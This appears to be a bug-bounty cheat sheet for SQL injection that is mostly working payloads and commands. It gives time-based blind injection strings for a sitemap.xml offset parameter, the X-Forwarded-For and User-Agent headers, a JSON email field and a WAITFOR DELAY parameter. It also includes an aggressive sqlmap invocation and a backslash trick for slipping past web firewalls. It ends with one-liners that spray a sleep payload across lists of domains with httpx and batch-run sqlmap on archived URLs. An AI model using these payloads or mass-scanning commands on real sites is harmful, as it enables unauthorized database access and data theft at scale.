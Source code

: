 ##### TOOLS
- sqlmap
- ghauri ==> this is best



##### SITEMAP
- sitemap.xml is present? . Try setting ?offset=1 parameter and if content changes, run sqlmap or ghauri   
- payload for sitemap.xml ==>             target[.]com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#   ==> output time should be 9
- ```` sqlmap -u "target/sitemap.xml?offset=1" -p offset --level 5 --risk 3 --dbms=MySQL --hostname --test-filter="MySQL >= 5.0.12 stacked queries"````

##### X-FORWARDED-FOR AND USER-AGENT
- X-Forwarded-For: ```` 0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z````
- User-Agent: ````"XOR(if(now()=sysdate(),sleep(6),0))XOR"````

###### TIP: if login page is built with php , use user-agent payload

---
#### Insert backslash in username and password parameter while creating account
`username=admin\&password=admin\` It may bypass some waf and also trigger error in sql syntax

##### IN PARAMETER
- testing in ?parameter=test by replacing below payload 
  ````?parameter[id) VALUES (NULL); WAITFOR DELAY '0:0:5';--]=test````
- sql injection in email parameter when email is send to check if it exists or not
   ```` 
   {“email”:”asd@a.com”}   response: {“code”:2002,”status”:200,”message”:”Email not found.”}
   {“email”:”\”a’-IF(LENGTH(database())=10,SLEEP(7),0)or’1’=’1\”@a.com”}   response:{“code”:0,”status”:200,”message”:”Successful”}	        Valid Delay: 8,696 milis

   `````



##### SQL IN MASS DOMAINS
````
cat domains.txt | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(20),0))OR" -rt -timeout 20 -mrt '>20'
cat waybackurls.txt| grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt

````


